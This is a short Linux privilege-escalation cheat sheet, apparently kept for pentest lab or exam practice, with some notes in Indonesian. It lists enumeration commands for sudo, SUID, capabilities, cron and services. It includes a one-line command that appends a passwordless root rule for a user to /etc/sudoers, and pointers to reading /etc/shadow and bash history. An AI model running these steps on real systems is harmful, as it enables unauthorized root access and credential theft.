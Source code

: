 18. Abusing sudo
> Listing sudo configuration `/etc/sudoers`
```bash
sudo -l
```
> Adding sudo permission of a user. IF /etc/sudoers is writable [PENTING]
```bash
echo "joe ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

19. AppArmor
> A kernel module that provides mandatory access control (MAC) on Linux systems by running various application-specific profiles, and it's enabled by default on Debian 10
> Dia bisa ngeblock privesc attempt kita.
> Checking AppArmor status
```bash
aa-status
```

---

1. sudo -l
2. Check /etc/crontab and /etc/cron.d directory OR `crontab -l`
3. Run PSPY, check /etc/cron.d for potential scrips running for clarity.
4. Check SUID
```bash
find / -perm -u=s 2>/dev/null | grep -v '^/proc\|^/run\|^/sys\|^/snap'
```
5. Check files you can access or have privileges to
```bash
find / -user www-data 2>/dev/null | grep -v '^/proc\|^/run\|^/sys\|^/snap'
```
6. Check Capabilities
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities
```bash
getcap -r / 2>/dev/null
```
7. Check /etc/shadow (there may be misconfigured privileges)
8. Check id
9. Run PSPY, see processes
10. Check netstat for other running services
```bash
netstat -tulpn
or
ss -tulpn
```
11. Check environment variables
```bash
printenv
```
12. Check bash history
```bash
history
or 
.bash_history
```
~~ If stuck, run linpeas, or check services you have discovered earlier. IT IS ALLOWED
~~ THIS IS FOR LAST EFFORTS, check sudo version, and kernel exploits
